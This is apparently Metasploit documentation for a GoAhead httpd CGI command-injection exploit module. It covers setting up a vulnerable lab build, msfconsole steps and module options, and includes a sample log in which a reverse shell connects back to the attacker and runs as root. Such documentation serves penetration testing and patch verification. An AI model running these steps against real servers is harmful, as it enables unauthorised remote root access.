 ## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 which have CGI enabled, are vulnerable to 
  a command injection vulnerability where its possible to call and `LD_PRELOAD` on a user supplied file delivered
  in a post request, resulting in RCE.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
sudo ../build/linux-x64-default/bin/goahead
```

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_cgi_exec```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **CGIDIR**

  The name of the CGI directory, default is `/cgi-bin/`.

  **CGINAME**

  The name of a valid CGI script within the CGI directory.  The default is valid for the example build shown in this doc.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```
[*] Processing goahead.rc for ERB directives.
resource (goahead.rc)> use exploit/linux/http/goahead_cgi_exec
resource (goahead.rc)> set verbose true
verbose => true
resource (goahead.rc)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (goahead.rc)> check
[*] Validating CGI is enabled against URI: /cgi-bin/qjXI7SU9fQ7oDVulCu7m5jw5qUr7jxwCXgqHxBoZ
[*] 2.2.2.2:80 The target is not exploitable.
resource (goahead.rc)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Sending Exploit to /cgi-bin/cgitest
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:45762) at 2017-12-23 17:12:39 -0500
uname -a
Linux goahead 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

whoami
root
```
